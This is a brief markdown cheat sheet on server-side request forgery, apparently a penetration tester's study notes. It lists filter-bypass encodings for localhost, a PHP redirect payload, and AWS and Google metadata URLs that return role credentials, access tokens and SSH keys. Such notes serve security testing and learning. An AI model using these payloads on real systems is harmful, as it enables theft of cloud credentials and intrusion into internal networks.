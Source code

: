 # SSRF

## WHERE

### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
#### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

## BYPASS

### Whitelist
	
* Open redirect
* @ , # , / , . 
* Encoding ?

### Blacklist
	
* Encoding
	
	Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
	Octal : 127.0.0.1 translates to 0177.0.0.01
	DWord : 127.0.0.1 translates to 2130706433
	URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
	Mixed : 127.0.0.1 translates to 0177.0.0.0x1

* Ip V6
* DNS 
* Redirect ( <?php header(“location: http://127.0.0.1"); ?> ) / TinyUrl 

## EXPLOIT

- localhost

- Collect instance metadata : EC2 ? Equivalent google ? 
	
#### AWS

* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

#### GOOGLE

* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.
		
* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

### fingerprinting : 
	
* internally : port scanning, other services on internal ip ? 

	. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
	. 127.0.0.0/8
	. 192.168.0.0/16
	. 10.0.0.0/8

* externally : user agent in dns/http request

### Bypass access controls

### RCE ???

## LINKS

- SSRF Bible : https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy

- Vickie Li : https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f

- Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses

- Common ports : https://packetlife.net/media/library/23/common-ports.pdf


